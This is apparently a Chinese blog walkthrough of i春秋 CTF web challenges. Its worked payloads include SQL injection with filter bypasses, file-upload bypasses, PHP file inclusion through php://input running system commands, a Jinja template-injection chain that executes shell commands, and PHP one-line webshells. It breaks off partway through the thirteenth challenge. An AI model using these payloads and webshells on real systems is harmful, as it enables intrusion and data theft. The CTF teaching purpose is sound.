# i春秋CTF

[2018-09-06]()

## [](#WEB "WEB")WEB

### [](#1-broken "1. broken")1\. broken

题目链接：<http://106.75.72.168:1111/>

进入链接看到一串代码，目测是jsfuck。

代码太多，这里就不放出来了

打开浏览器，按F12，把代码放到console里面跑一下报错了，联想到题目给的broken想到有可能是代码不全，经过观察发现第一个\[括号没有对应的右括号，在末尾加上一个右括号，再把结尾的\(\)去掉  
直接得到一个Array:`Array [ "var flag=\"flag{f_f_l_u_a_c_g_k}\";alert('flag is not here');" ]`



### [](#2-Do-you-know-upload？ "2. Do you know upload？")2\. Do you know upload？

  
上传的时候用burpsuite抓个包然后把Content-Type字段改成image/jpeg  
  


菜刀连上之后并没有找到flag文件，推测是不是在ctf数据库里面，那么看一下数据库配置文件config.php，看到了数据库账号密码  
  
编辑菜刀连接数据库上去拿到flag  
  


### [](#3-wanna-to-see-your-hat "3.wanna to see your hat?")3.wanna to see your hat\?

题目地址：`http://120.132.56.20:1515/`  
进入题目后是一堆帽子，往下拉有一个链接`I want to check the color of my hat!`

点进去这个链接发现有一个提交框



随便输一个提交进去发现页面直接跳转了，跳转到的那个页面又是一堆帽子，没什么意义。

那么这道题的关键应该就在这个提交框了，回到`http://120.132.56.20:1515/route.php?act=login`页面

为了防止页面跳转，我们用抓包来抓取页面

抓取到的页面和网页的回应如下



从网页的返回可以看到一行sql语句，初步判定这道题用的应该是sql注入，然后我们在name字段随便输入一个值，后边加上单引号，可以看到页面返回如下。



通过分析我们发现页面把我们输入的单引号替换成了反斜杠，那么我们如果在末尾加上了单引号原本sql语句末的单引号就被转移掉了，通过测试和分析发现空格也被过滤掉了，这里脑部一下在sql语句中注释符是可以代替空格的，这里就用`/**/`来代替空格，最后总结出来payload:`or/**/1#1'`

页面返回如下



我们来分析一下下面这个sql语句真正执行的是什么：

```
select count(*) from t_info where username = 'or/**/1#1\' or nickname = 'or/**/1#1\'
```

首先第一个单引号从 **username =** 的后边一直到 **nickname =** 的后边，两个单引号中间虽然还有个单引号`1\'`，但是这个单引号左边有一个反斜杠，被反斜杠转义了之后就失去了单引号的意义，所以可以认为它不是个单引号。那么两个单引号之间的内容其实都是username的值，而至于语句的最后边`#1\'`，在sql语句中#代表注释符，#后边的内容都被注释掉了，我们就直接当作后边没有东西，而/\*_/在sql语句中是注释符，其实就等价于空格，那么这个sql语句整理一下就是这样：  
select count\(_\) from t\_info where username = ‘A’ or 1

语句的后边or 1 永远为真，所以可以直接登陆成功。

然后拿着payload放到网站的登陆框内，点击提交，



得到flag.



### [](#4-upload "4.upload")4.upload

进去之后显示：`Hi,CTFer!u should be a fast man:)`

按F12查看网络发现请求头里有个flag字段是base64编码的，那么拿出来对其解码得到一个数，然后我们查看页面的源代码发现有一句话：`Please post ichunqiu what you find`  
那么我们Post这个参数`ichunqiu=前边解码得到的字符串`  
然后页面返回`Hi,CTFer!u should be a fast man:)`

那么上脚本：  
import requests  
import base64  
a = requests.session\(\)  
b = a.get\(“<http://8913d6c422814e9a83f85cbfe9d35387fa36a0b37d934e25.game.ichunqiu.com//">\)  
key1 = b.headers\[“flag”\]  
c = base64.b64decode\(key1\)  
d = str\(c\).split\(‘:’\)  
key = base64.b64decode\(d\[1\]\)  
body = \{“ichunqiu”:key\}  
f = a.post\(“<http://8913d6c422814e9a83f85cbfe9d35387fa36a0b37d934e25.game.ichunqiu.com/",data=body>\)  
print\(f.text\)

得到结果：  
Path:3712901a08bb58557943ca31f3487b7d

访问地址：`http://8913d6c422814e9a83f85cbfe9d35387fa36a0b37d934e25.game.ichunqiu.com/3712901a08bb58557943ca31f3487b7d`

我们对目录扫描发现有一个/.svn 有可能是源码泄露，然后对`http://8913d6c422814e9a83f85cbfe9d35387fa36a0b37d934e25.game.ichunqiu.com/3712901a08bb58557943ca31f3487b7d/.svn`进行目录扫描发现下边有一个wc.db文件，访问一下看到一句话：`my username is md5(HEL1OW1OrDEveryOn3)`  
将这句话md5加密一下：`8638d5263ab0d3face193725c23ce095`

然后我们进入登陆页面：  
password=123456  
下边还有这句话：  
substr\(md5\(captcha\), 0, 6\)=da6137

上脚本，爆破验证码：  
import hashlib  
def md5\(s\):  
return hashlib.md5\(str\(s\).encode\(‘utf-8’\)\).hexdigest\(\)  
def main\(s\):  
for i in range\(1,99999999\):  
if md5\(i\)\[0:6\] == str\(s\):  
print\(i\)  
exit\(0\)  
if **name** == ‘**main**‘:  
main\(“e34002”\)

获得验证码后点击submit得到这句话  
The 7815696ecbf1c96e6894b779456d330e.php:\) Welcome 8638d5263ab0d3face193725c23ce095\!  
然后访问url：`http://8913d6c422814e9a83f85cbfe9d35387fa36a0b37d934e25.game.ichunqiu.com/3712901a08bb58557943ca31f3487b7d/7815696ecbf1c96e6894b779456d330e.php`

进入到一个文件上传的页面，经典的文件上传漏洞，上传一个jpg图片，打开burp suite抓个包将文件名后缀改成pht即可得到flag.

### [](#5-include "5.include")5.include

题目内容：没错！就是文件包含漏洞

进去后看到一串代码：

```
<?php 
show_source(__FILE__);
if(isset($_REQUEST['path'])){
    include($_REQUEST['path']);
}else{
    include('phpinfo.php');
}
```

通过代码审计发现可以传入一个参数path，里面的填入的文件路径可以访问，  
那么试一试传入`?path=flag.php` 看能不能得到flag 但是发现并不行  
刚开始没什么头绪，后来想到能不能试一试为协议呢：  
于是传入参数：`?path=php://input`  
然后post里面传入一个一句话：`<?php system('ls'); ?>`



然后访问之后就会看到



当前路径下有三个文件，然后我们访问一下第一个最有可能的文件：

利用burpsuite抓包

仍然利用之前的payload get传入`?path=php://input`

post传入`<?php system('cat dle345aae.php'); ?>`



然后得到页面返回的flag



### [](#6-攻击 "6.攻击")6.攻击

题目内容：一个ip只有一个机会，哈哈哈。

进去后就给了源代码：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php</span><br><span class="line">header("content-type:text/html;charset=utf-8");</span><br><span class="line">show_source(__FILE__);</span><br><span class="line">echo '&lt;pre&gt;';</span><br><span class="line">include('u/ip.php');</span><br><span class="line">include('flag.php');</span><br><span class="line">if (in_array($_SERVER['REMOTE_ADDR'],$ip)){</span><br><span class="line">  die("您的ip已进入系统黑名单");</span><br><span class="line">}</span><br><span class="line">var_dump($ip);</span><br><span class="line"></span><br><span class="line">if ($_POST[substr($flag,5,3)]=='attack'){</span><br><span class="line">  echo $flag;</span><br><span class="line">}else if (count($_POST)&gt;0){</span><br><span class="line">  $ip = '$ip[]="'.$_SERVER['REMOTE_ADDR'].'";'.PHP_EOL; </span><br><span class="line">  file_put_contents('u/ip.php',$ip,FILE_APPEND);</span><br><span class="line">}</span><br><span class="line">echo '&lt;/pre&gt;';</span><br></pre></td></tr></tbody></table>

代码审计可知：  
\(1\)若当前IP与\$ip变量的内容相同，则提示信息直接退出。

\(2\)当POST中某id的键值等于’attack’时，打印\$flag。这个id为\$flag的第五个位置开始，长度为3的一个字符串。

\(3\)如果不满足\(2\)，则检查POST的变量个数，大于0则把你当前的IP加入到黑名单中（故一个IP只能攻击一次，失败了就要重新创建题目）

tips：其实这里用python脚本也可以添加代理，这样如果IP被添加到黑名单的话也不用非要重新创建赛题

直接献上代码：

```
import requests 
a = "1234567890" 
data = {} 
for i in a: 
    for j in a: 
        for k in a: 
            data[i+j+k]="attack" 
print(data) 
r=requests.post("http://http://af607c7697f54098938c60906d7323ad38823a770723442c.game.ichunqiu.com/",data=data) 
print(r.text)
```

运行即可得到flag

### [](#7-Fuzz "7.Fuzz")7.Fuzz

利用模糊测试得到参数是name  
输入\?name=test  
得到`Hello test`

先给出payload:

```
name=%7B%7B ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') %7D%7D


name=%7B%7B config.from_pyfile('/tmp/owned.cfg') %7D%7D 


name=%7B%7B%20config[%27RUNCMD%27](%27/usr/bin/id%27,shell=True)%20%7D%7D

name=%7B%7B%20config[%27RUNCMD%27](%27echo cHJpbnQgb3BlbignL3Zhci93d3cvaHRtbC9mbDRnJywncicpLnJlYWQoKQ==|base64 -d>/tmp/get.py%27,shell=True)%20%7D%7D

name=%7B%7B%20config[%27RUNCMD%27](%27python /tmp/get.py%27,shell=True)%20%7D%7D
```

还没弄懂什么意思 后边再来解释

### [](#8-Look "8.Look")8.Look

题目内容：我看的见你，你却看不见我。（非隐写）  
还给了两个提示：

```
tips：sql injection
tips2: mysql 字符集
```

挺有趣的一道题，注入+getshell  
进入题目一片空白，查看源代码还是那样  
看一看请求头发现一个有用的东西

`X-HT:VERIFY`


提示上说事SQL注入，那么注入用的参数可能就是这个字段，那么我们来试一试：

```
http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/?verify=adm
```

页面返回：`verify error`  
说明我们的参数还是有效果的，我的习惯是先试一试万能密码：`http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/?verify='=0%23`  
页面返回了一个文件：  
next page 5211ec9dde53ee65bb02225117fba1e1.php

那么我们来访问它一下：`http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/5211ec9dde53ee65bb02225117fba1e1.php`

页面返回只有一个hello，根据刚才的经验，直接查看请求头看看：



看到viminfo想到是不是vim备份文件，那么访问一下:

`http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/.viminfo`  
看到了有用的东西：

  
那么访问一下这个备份文件：  
<http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/icq/>

看到了两行的php代码  


查看一下页面的源代码：  
看到了完整的php代码：

```
<?php
$con = mysql_connect('localhost','root','');
mysql_query("set names utf8");
mysql_select_db("ctf");
if($_SERVER["REMOTE_ADDR"]=='8.8.8.8'){
    $name = addslashes($_GET['usern3me']);
}
else{
    if(stripos($_GET['usern3me'],'Bctf2O16')!==false){
        $name = 'FUCK';
    }
    else{
        $name = addslashes($_GET['usern3me']);
    }
}
echo 'hello '.$name;
$sql = "select * from admin where name='$name'";
$result = mysql_query($sql);
$num = mysql_num_rows($result);
if($num>0){
    echo '<br>next ***.php';
}
?>
```

代码审计可以发现，其实就是要查询Bctf2O16，但是又不能出现这个字符串，根据提示想到mysql字符集  
于是构造出payload:  
`http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=B%C3%87tf2O16`

页面返回  
hello BÇtf2O16 next c3368f5eb5f8367fd548b228bee69ef2.php

那么继续查看这个文件  
<http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/c3368f5eb5f8367fd548b228bee69ef2.php>

页面返回了一个php代码：

```
<?php
if(isset($_GET['path']) && isset($_GET['filename'])){
    $path = $_GET['path'];
    $name = "upload/".$_GET['filename'];
}
else{
    show_source(__FILE__);
    exit();
}
if(strpos($name,'..') > -1){
    echo 'WTF';
    exit();
}

if(strpos($path,'http://127.0.0.1/') === 0){
    file_put_contents($name,file_get_contents($path));
}
else{
    echo 'path error';
}
?>
```

还要代码审计，需要传入一个path变量，里面要有`http://127.0.0.1/`这个字段，那么我们用url来写入一个一句话：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/c3368f5eb5f8367fd548b228bee69ef2.php?path=http://127.0.0.1/5211ec9dde53ee65bb02225117fba1e1.php?usern3me=&lt;?php%2520eval($_POST[c]);?&gt;&amp;filename=b.php</span><br></pre></td></tr></tbody></table>

访问之后就生成了一个一句话木马，路径就是`/upload/bag.php`  
上菜刀了，路径是`http://4a3416333d9544e9bbc41478dc5602d072d55777f2564419.game.ichunqiu.com/upload/b.php`  
密码就是:c



菜刀连上之后  
查看一下当前目录下的文件：  
什么都没有，那么返回到上一个目录，再查看一下有什么文件：



终于得到了想要的，`cat flag_is_here.php`  
就有flag了



### [](#9-upload "9. upload")9\. upload

> 想怎么传就怎么传，就是这么任性  
> hint:肯定是文件上传了

  
相信大家看到这个想法都跟我一样，传一个一句话上去  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php </span><br><span class="line"> @eval($_POST["code"]);</span><br><span class="line"> ?&gt;</span><br></pre></td></tr></tbody></table>

  
结果显示上传成功  
查看页面源代码可以看到上传的路径`/u/test.php`  
我们查看文件，发现把“\<”和”php ”给过滤掉了  
那我们就很自然的想到PHP的长标签了  
重新修改代码  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">&lt;script language="PHP"&gt;</span><br><span class="line"> @eval($_POST["code"]);</span><br><span class="line">&lt;/script&gt;</span><br></pre></td></tr></tbody></table>

发现上传成功，使用菜刀连接，发现flag.php  
  
打开，得到flag  


### [](#10-Code "10. Code")10\. Code

> 题目内容：考脑洞，你能过么？  
> 题目地址：<http://cea11f0c10d14e938cd6b2402c1b3fc193002477900b454b.game.ichunqiu.com/index.php?jpg=hei.jpg>

进入题目后看到一张图片，查看源代码是被BASE64编码了，源码太长就不放了，这里直接放上解码后的：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php</span><br><span class="line">/**</span><br><span class="line"> * Created by PhpStorm.</span><br><span class="line"> * Date: 2015/11/16</span><br><span class="line"> * Time: 1:31</span><br><span class="line"> */</span><br><span class="line">header('content-type:text/html;charset=utf-8');</span><br><span class="line">if(! isset($_GET['jpg']))</span><br><span class="line">    header('Refresh:0;url=./index.php?jpg=hei.jpg');</span><br><span class="line">$file = $_GET['jpg'];</span><br><span class="line">echo '&lt;title&gt;file:'.$file.'&lt;/title&gt;';</span><br><span class="line">$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);</span><br><span class="line">$file = str_replace("config","_", $file);</span><br><span class="line">$txt = base64_encode(file_get_contents($file));</span><br><span class="line"></span><br><span class="line">echo "&lt;img src='data:image/gif;base64,".$txt."'&gt;&lt;/img&gt;";</span><br><span class="line"></span><br><span class="line">/*</span><br><span class="line"> * Can you find the flag file?</span><br><span class="line"> *</span><br><span class="line"> */</span><br><span class="line"></span><br><span class="line">?&gt;</span><br></pre></td></tr></tbody></table>

其实这段代码里面最有用的不是代码而是最容易被忽略掉的注释  
注释里面有这句话：`Created by PhpStorm`  
这里脑补一下：用PhpStorm写出来的项目里面都会有/.idea文件,删除之后还会重新创建\(当然可以禁止访问\)，这就比较有意思了，我们可以访问`/.idea/workspace.xml`  
在这个页面里发现了两个有用的文件：`fl3g_ichuqiu.php config.php`  
我们要的东西有可能就在这两个文件里，那么查看一下源文件：  
<http://cea11f0c10d14e938cd6b2402c1b3fc193002477900b454b.game.ichunqiu.com/index.php?jpg=fl3g_ichuqiu.php>  
访问之后发现并没有返回什么东西，是不是哪里出错了呢，看一看`index.php`文件，发现有一行把字符串`config`替换成了一个下划线`_`  
那么我们就需要构造URL来访问这个文件，既然config被替换成了下划线，那么payload如下：  
<http://cea11f0c10d14e938cd6b2402c1b3fc193002477900b454b.game.ichunqiu.com/index.php?jpg=fl3gconfigichuqiu.php>  
这样可以访问到这个文件，源码太长，这里还放解码后的  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php</span><br><span class="line">/**</span><br><span class="line"> * Created by PhpStorm.</span><br><span class="line"> * Date: 2015/11/16</span><br><span class="line"> * Time: 1:31</span><br><span class="line"> */</span><br><span class="line">error_reporting(E_ALL || ~E_NOTICE);</span><br><span class="line">include('config.php');</span><br><span class="line">function random($length, $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz') {</span><br><span class="line">    $hash = '';</span><br><span class="line">    $max = strlen($chars) - 1;</span><br><span class="line">    for($i = 0; $i &lt; $length; $i++)	{</span><br><span class="line">        $hash .= $chars[mt_rand(0, $max)];</span><br><span class="line">    }</span><br><span class="line">    return $hash;</span><br><span class="line">}</span><br><span class="line"></span><br><span class="line">function encrypt($txt,$key){</span><br><span class="line">    for($i=0;$i&lt;strlen($txt);$i++){</span><br><span class="line">        $tmp .= chr(ord($txt[$i])+10);</span><br><span class="line">    }</span><br><span class="line">    $txt = $tmp;</span><br><span class="line">    $rnd=random(4);</span><br><span class="line">    $key=md5($rnd.$key);</span><br><span class="line">    $s=0;</span><br><span class="line">    for($i=0;$i&lt;strlen($txt);$i++){</span><br><span class="line">        if($s == 32) $s = 0;</span><br><span class="line">        $ttmp .= $txt[$i] ^ $key[++$s];</span><br><span class="line">    }</span><br><span class="line">    return base64_encode($rnd.$ttmp);</span><br><span class="line">}</span><br><span class="line">function decrypt($txt,$key){</span><br><span class="line">    $txt=base64_decode($txt);</span><br><span class="line">    $rnd = substr($txt,0,4);</span><br><span class="line">    $txt = substr($txt,4);</span><br><span class="line">    $key=md5($rnd.$key);</span><br><span class="line"></span><br><span class="line">    $s=0;</span><br><span class="line">    for($i=0;$i&lt;strlen($txt);$i++){</span><br><span class="line">        if($s == 32) $s = 0;</span><br><span class="line">        $tmp .= $txt[$i]^$key[++$s];</span><br><span class="line">    }</span><br><span class="line">    for($i=0;$i&lt;strlen($tmp);$i++){</span><br><span class="line">        $tmp1 .= chr(ord($tmp[$i])-10);</span><br><span class="line">    }</span><br><span class="line">    return $tmp1;</span><br><span class="line">}</span><br><span class="line">$username = decrypt($_COOKIE['user'],$key);</span><br><span class="line">if ($username == 'system'){</span><br><span class="line">    echo $flag;</span><br><span class="line">}else{</span><br><span class="line">    setcookie('user',encrypt('guest',$key));</span><br><span class="line">    echo "╮(╯▽╰)╭";</span><br><span class="line">}</span><br><span class="line">?&gt;</span><br></pre></td></tr></tbody></table>

代码审计喽  
其实就是将函数decrypt返回的值传给username。  
如果username=system，那么输出flag

所以说，我们现在是需要得到变量key和变量rnd



然后这里附上得到username值的代码

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php</span><br><span class="line">    $txt1 = 'guest';</span><br><span class="line">    for ($i = 0; $i &lt; strlen($txt1); $i++) {</span><br><span class="line">        $txt1[$i] = chr(ord($txt1[$i])+10);</span><br><span class="line">    }</span><br><span class="line">    $cookie_guest = 'emVTQkZHCh8d'; </span><br><span class="line">    $cookie_guest = base64_decode($cookie_guest);</span><br><span class="line">    $rnd = substr($cookie_guest,0,4); </span><br><span class="line">    $ttmp = substr($cookie_guest,4);</span><br><span class="line">    $key='';</span><br><span class="line">    for ($i = 0; $i &lt; strlen($txt1); $i++) {</span><br><span class="line">        $key .= ($txt1[$i] ^ $ttmp[$i]);//$key=md5($rnd.$key);</span><br><span class="line">    }</span><br><span class="line"></span><br><span class="line">    $txt2 = 'system';</span><br><span class="line">    for ($i = 0; $i &lt; strlen($txt2); $i++) {</span><br><span class="line">        $txt2[$i] = chr(ord($txt2[$i])+10);</span><br><span class="line">    }</span><br><span class="line"></span><br><span class="line">    $md5 = '0123456789abcdef';</span><br><span class="line">    for ($i = 0; $i &lt; strlen($md5); $i++) {</span><br><span class="line">        $key_new = $key.$md5[$i];</span><br><span class="line">        $cookie_system='';</span><br><span class="line">        for ($j = 0; $j &lt; strlen($txt2); $j++) {</span><br><span class="line">            $cookie_system .= ($key_new[$j] ^ $txt2[$j]);</span><br><span class="line">        }</span><br><span class="line">        $cookie_system = base64_encode($rnd.$cookie_system);</span><br><span class="line">        echo $cookie_system."&lt;/br&gt;";</span><br><span class="line">    }  </span><br><span class="line">?&gt;</span><br></pre></td></tr></tbody></table>

代码运行后会得到一串值



我们用burpsuite对username的值进行爆破  


爆破会得到一个正确的username的值，然后直接修改后访问就可以得到flag  


### [](#11-SQL "11.SQL")11.SQL

> 题目内容：出题人就告诉你这是个注入，有种别走！

进入后就说flag在数据库中，那就开始注入吧，测试之后发现不需要单引号，那么看看有几个字段，  
`http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 order by 3`  


发现返回了`inj code!` 判断肯定是过滤了关键字，那么用注释符绕/**/过：  
\`<http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1> or/**/der by 3\`

  
页面没有返回，猜测可能是注释符也被过滤了，那就试试`<>`这个符号  
`http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 or<>der by 3`  
  
成功返回东西，说明这样可以绕过，那么试一下4：  
`http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 or/**/der by 4`  
  
返回为空，说明字段为3.  
然后开始注入：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">获取数据库名：</span><br><span class="line">http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 uni&lt;&gt;on se&lt;&gt;lect 1,database(),3</span><br></pre></td></tr></tbody></table>

  
数据库：sqli  


<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">获取表名：</span><br><span class="line">	http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 uni&lt;&gt;on se&lt;&gt;lect 1,group_concat(table_name),3 from info&lt;&gt;rmation_schema.tables where table_schema='sqli'</span><br><span class="line">	表：info</span><br></pre></td></tr></tbody></table>

  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">获取列名：</span><br><span class="line">	http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 uni&lt;&gt;on se&lt;&gt;lect 1,group_concat(column_name),3 from info&lt;&gt;rmation_schema.columns where table_name='info'</span><br><span class="line">	列：id,title,flAg_T5ZNdrm</span><br></pre></td></tr></tbody></table>

  
  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">获取字段：</span><br><span class="line">	http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 uni&lt;&gt;on se&lt;&gt;lect 1,group_concat(id,title,flAg_T5ZNdrm),3 from info</span><br></pre></td></tr></tbody></table>

  
字段：  
id:1,2  
title:flag\{在数据库中\},test  
flAg\_T5ZNdrm:flag\{6628cc6e-8930-4dd2-b1cc-a0835365010b\},test

### [](#12-SQLi "12.SQLi")12.SQLi

> 题目内容：后台有获取flag的线索

拿到题目后是一个空白页面，查看源代码发现有个提示：`<!-- login.php?id=1 \-->`  
访问之后测试了各种方法发现并不能注入，然后查看源代码也没有提示，请求头也没有东西，这时候要么就是有隐藏的后台，要么就是页面发生了跳转，利用扫描器扫了很长时间也没找到后台，那可能就是重定向了，我们查看页面的流量监测，然后访问  
`http://aaa52ea761d944cea3b2d9a344d85f80920033eeae534f39.game.ichunqiu.com/index.php`  
这时候可以看到总共访问了两个网页  
  
其中一个就是302跳转，我们查看一下这个302的响应头：  


在它里面发现了这个东西`l0gin.php?id=1`  
估计真正的注入网站是这个  
我们先访问一下`http://aaa52ea761d944cea3b2d9a344d85f80920033eeae534f39.game.ichunqiu.com/l0gin.php?id=1`  
  
页面返回了查询的内容，直接上sqlmap跑  
  
返回了这个东西，发现是可以注入的，但是让它继续跑却跑不出来了，那就手工注入吧

多次测试后发现`，`后边的东西被过滤掉了，那就不能用逗号了，这里直接脑补一个不用逗号也可以注入的SQL语句（Join\)  
`id=-1' union select * from (select group_concat(distinct(table_schema)) from information_schema.tables ) a join (select version() ) b %23`

然后开始查询我们要的东西了：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">查询数据库：</span><br><span class="line">http://aaa52ea761d944cea3b2d9a344d85f80920033eeae534f39.game.ichunqiu.com/l0gin.php?id=-1' union select * from (select group_concat(distinct(table_schema)) from information_schema.tables ) a join (select database() ) b %23</span><br></pre></td></tr></tbody></table>



<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">查询表：</span><br><span class="line">http://aaa52ea761d944cea3b2d9a344d85f80920033eeae534f39.game.ichunqiu.com/l0gin.php?id=-1' union select * from (select group_concat(distinct(table_schema)) from information_schema.tables ) a join (select group_concat(table_name) from information_schema.tables where table_schema='sqli' ) b %23</span><br></pre></td></tr></tbody></table>



<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">查询列：</span><br><span class="line">http://aaa52ea761d944cea3b2d9a344d85f80920033eeae534f39.game.ichunqiu.com/l0gin.php?id=-1' union select * from (select group_concat(distinct(table_schema)) from information_schema.tables ) a join (select group_concat(column_name) from information_schema.columns where table_name='users' ) b %23</span><br></pre></td></tr></tbody></table>


<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">查询字段：</span><br><span class="line">http://aaa52ea761d944cea3b2d9a344d85f80920033eeae534f39.game.ichunqiu.com/l0gin.php?id=-1' union select * from (select group_concat(distinct(table_schema)) from information_schema.tables ) a join (select group_concat(flag_9c861b688330) from users ) b %23</span><br></pre></td></tr></tbody></table>



然后就得到了flag

### [](#13-123 "13.123")13.123

> 题目内容：12341234，然后就解开了  
> 分值：50分 类型：Web

打开网址，查看网页源代码

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br></pre></td><td class="code"><pre><span class="line">&lt;!DOCTYPE html&gt;</span><br><span class="line">&lt;html&gt;</span><br><span class="line">&lt;head&gt;</span><br><span class="line">    &lt;meta charset="utf-8" /&gt;</span><br><span class="line">    &lt;title&gt;会员登录&lt;/title&gt;</span><br><span class="line">&lt;/head&gt;</span><br><span class="line">&lt;body&gt;</span><br><span class="line">&lt;center&gt;</span><br><span class="line">    &lt;h4&gt;请输入帐号密码进行登录&lt;/h4&gt;</span><br><span class="line">    &lt;form action="" method="POST"&gt;</span><br><span class="line">        &lt;input type="text" name="username" placeholder='用户名' /&gt;</span><br><span class="line">        &lt;br /&gt;&lt;br /&gt;</span><br><span class="line">        &lt;input type="password" name="password" placeholder='密码' 